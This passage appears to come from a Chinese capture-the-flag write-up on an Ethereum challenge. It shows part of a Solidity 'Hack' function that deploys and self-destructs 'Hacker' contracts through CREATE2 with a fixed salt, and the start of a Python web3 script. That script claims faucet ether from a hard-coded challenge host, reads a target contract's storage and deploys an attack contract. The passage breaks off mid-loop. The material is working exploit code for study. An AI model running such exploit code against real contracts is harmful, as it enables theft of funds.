 ``` solidity
    bytes32 public s = hex"42";
    uint256 public nonce;
    constructor(uint256 _nonce) public {
        nonce = _nonce;
    }
    function Hack(address target, uint256 mod) public {
        hk = new Hacker{salt: s}(target, mod);
        nonce++;
        a = address(hk);
        emit log_address(a);
        hk.die();
    }
}
```
**交互部署脚本**
``` python

import time
from eth_hash import Keccak256
from web3 import Web3
import requests
import json
from Crypto.Util.number import bytes_to_long

w3 = Web3(Web3.HTTPProvider('http://123.60.36.208:8545/'))

BigHacker_bytecode = open('output/BigHacker.bin', 'r').read()
BigHacker_abi = open('output/BigHacker.abi', 'r').read()
Hacker_bytecode = open('output/Hacker.bin', 'r').read()
acc = w3.eth.account.create()
hacker, sk_hacker = acc.address, acc.key

print('[+] hacker:', hacker)
assert requests.post(f'http://123.60.36.208:8080/api/claim', data = {'address': hacker}).status_code == 200
print('[+] waiting for test ether')
while w3.eth.get_balance(hacker) == 0:
    time.sleep(3)

print('[+] exploit start')

def deploy(src, data, value=0):
    return {
        "chainId": w3.eth.chain_id,
        "from": src,
        "gasPrice": w3.toWei(1,'wei'),
        "gas": 4700000,
        "value": w3.toWei(value,'wei'),
        "nonce": w3.eth.getTransactionCount(src),
        "data": data
}

nonce = w3.eth.getStorageAt('0x21ac0df70A628cdB042Dde6f4Eb6Cf49bDE00Ff7',2)
BigHacker_bytecode += nonce.hex()[2:]

signed_txn = w3.eth.account.signTransaction(deploy(hacker, BigHacker_bytecode), sk_hacker)
txn_hash = w3.eth.sendRawTransaction(signed_txn.rawTransaction).hex()
txn_receipt = w3.eth.waitForTransactionReceipt(txn_hash)
target = txn_receipt['contractAddress']
print('[+] BigHacker address:', target)

contract = w3.eth.contract(address=target, abi=BigHacker_abi)
for i in range(20):
```